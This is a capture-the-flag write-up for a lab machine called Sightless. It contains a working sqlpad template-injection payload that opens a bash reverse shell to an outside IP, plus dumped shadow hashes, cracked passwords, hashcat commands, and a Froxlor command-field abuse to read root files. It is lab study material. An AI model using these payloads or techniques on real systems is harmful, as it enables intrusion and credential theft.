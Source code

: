 1, Recon
port scan 
	21/tcp ftp
	22/tcp ssh
	80/tcp http `http://sightless.htb/`
Check the services
	ftp: very sad, we could not use anonymous to login.
	http: we find other sub-domains `sqlpad.sightless.htb`, and we did not find anything useful in the main domain.And we successfully find the version of sqlpad
	![[Pasted image 20240908101649.png]]
	`sqlpad 6.10.0`
	Let's check some exploits of that
	`sqlpad up to 6.10.0 Test Endpoint injection`
	`Template injection in connection test endpoint leads to RCE in sqlpad/sqlpad`
	`https://huntr.com/bounties/46630727-d923-4444-a421-537ecd63e7fb`
```
[6.10.1] - 2022-03-13
Secure connection template functionality. This restricts connection template values to fields on user object, preventing the use of arbitrary JavaScript, as it could be leveraged for abuse. (This functionality was, and still is, only available to admin accounts.)
[6.10.0] - 2022-03-11
Add postgres query timeout config
Add default role config for Google Auth
Update dependencies
```

Then we just follow the page of exploitation and payload is 
`{{ process.mainModule.require('child_process').exec('/bin/bash -c "bash -i >& /dev/tcp/10.10.14.65/443 0>&1"') }}`
Then we can get the root shell of docker and we can get the `/etc/shadow` and get the password of root or others.
```
root:$6$jn8fwk6LVJ9IYw30$qwtrfWTITUro8fEJbReUc7nXyx2wwJsnYdZYm9nMQDHP8SYm33uisO9gZ20LGaepC3ch6Bb2z/lEpBM90Ra4b.:19858:0:99999:7:::

michael:$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:19860:0:99999:7:::
```
Let's use the john or hashcat to crack them.
Then we get the password `insaneclownposse`

Let's use ssh to get the michael shell.

2, shell as root
When we check the `sudo -l`, there is nothing
```
sudo -l
[sudo] password for michael: 
Sorry, user michael may not run sudo on sightless.
```

Then let's check the netstate
```
netstat -ntlp
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8080 
```
These would be useful for us.
`3306 mysql`
`8080 would be interesting for us.`
When we try to curl it, we successful get some response.
So let's Port forwarding it to our localhost.
`ssh -L 8080:localhost:8080 michael@10.10.11.32`

Then we just check `http://localhost:8080`, we get 
![[Pasted image 20240908110234.png]]
We get the name of service `froxlor` and we need to add the domain
```
michael@sightless:~$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 sightless
127.0.0.1 sightless.htb sqlpad.sightless.htb admin.sightless.htb
```
Then  we successfully come to the login page
![[Pasted image 20240908110618.png]]
So let's try to use the cred `michael:insaneclownposse`, but we failed

So let's come to the machine and we find another user `john` and we don't have permission to check its directory.

So I think it would useful for us.

`there are some other ports on 127.0.0.1 on my box on port 39149 is session for `
`https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/chrome-remote-debugger-pentesting/`

`Chrome Remote Debugger Pentesting`

So we need to check `If the target system is running Google Chrome Debugger with specific port,`

We need the `pspy` to help us.
```
/bin/sh -c sleep 110 && /usr/bin/python3 /home/john/automation/administration.py

CMD: UID=1001 PID=1624   | /opt/google/chrome/chrome --type=zygote --no-sandbox --enable-logging --headless --log-level=0 --headless --crashpad-handler-pid=1619 --enable-crash-reporter 
```
So I guess it would be true for our guess.
```
tcp        0      0 127.0.0.1:38607         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:45305
```
So one of them would be the result of that.
```
open chrome 
go to chrome://inspect/#devices
configure> add 127.0.0.1:52253
add them all until you see a connection pop up > inspect it > new window pops up , go to network tab and wait for him to login > look at the index.php to find the creds to login portal on 127.0.0.1:8080

```

Then we can get the credit
In the payload tab, we can catch the credit of admin.
![[Pasted image 20240909085129.png]]
`admin : ForlorfroxAdmin`

There is a tricky way to get the root.txt
```
login > PHP > PHP-FPM versions > create new > In php-fpm restart command form field use
cp /root/root.txt /tmp/root.txt
save it > go to http://127.0.0.1:8080/admin_settings.php?page=overview&part=phpfpm > disable it and save > go back and re-enable it and save. This executes the copy command.
verify you have the file in /tmp
then repeat process but use 

chmod 644 /tmp/root.txt

PS: when we just want to upload a reverse shell it would be failed

#### Error
The value for the field "reload_cmd" is not in the expected format.
```

And there would be another way to get the root shell.
```
Resources -> Customers -> Click in the web1 username -> FTP -> Accounts -> Edit -> Change password

Then connect to ftp
lftp -u web1 ip
lftp web1@240.0.0.1:~> set ssl:verify-certificate off
lftp web1@240.0.0.1:~> ls

get the database.kdb

keepass2john Database.kdb >> Database.hash

you can remove the username in Database.hash or use --user in hashcat

hashcat --identify Database.hash --user
      # | Name                                                      | Category
  ======+============================================================+======================================
  13400 | KeePass 1 (AES/Twofish) and KeePass 2 (AES)                | Password Manager
  29700 | KeePass 1 (AES/Twofish) and KeePass 2 (AES) - keyfile only mode | Password Manager

hashcat -m 13400 Database.hash /usr/share/wordlists/rockyou.txt --user --force -a -w 3

password `bulldogs`

Then we get ssh credit
`root:q6gnLTB74L132TMdFCpk` and a id_rsa file
```

Then we can get the root shell by ssh.


